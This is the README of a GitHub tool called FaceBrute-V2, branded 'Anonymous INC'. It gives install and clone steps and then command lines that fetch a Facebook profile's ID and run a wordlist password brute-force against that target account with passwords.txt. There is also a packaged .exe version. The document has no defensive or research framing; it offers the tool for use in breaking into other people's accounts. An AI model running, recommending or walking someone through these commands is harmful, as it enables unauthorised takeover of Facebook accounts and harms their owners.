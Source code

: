 # FaceBrute-V2
== A N O N Y M O U S  I N C ==

## Get Started
Install python executable installer first
```
> https://www.python.org/downloads/release/python-373/
```

## Clone Repo
```
> git clone https://github.com/IyoRTML/FaceBrute-V2.git
```

## Run in Command Line
```
> pip install requests
> pip install mechanize
> py.exe main.py -g https://www.facebook.com/Username
> py.exe main.py -t [This Target ID] -w passwords.txt
```

## Run in FaceBrute.EXE
```
> Double click FaceBrute.exe
```

![Anonymous INC](https://raw.githubusercontent.com/IyoRTML/FaceBrute-V2/main/img/facebruteanonymousinc.jpg)

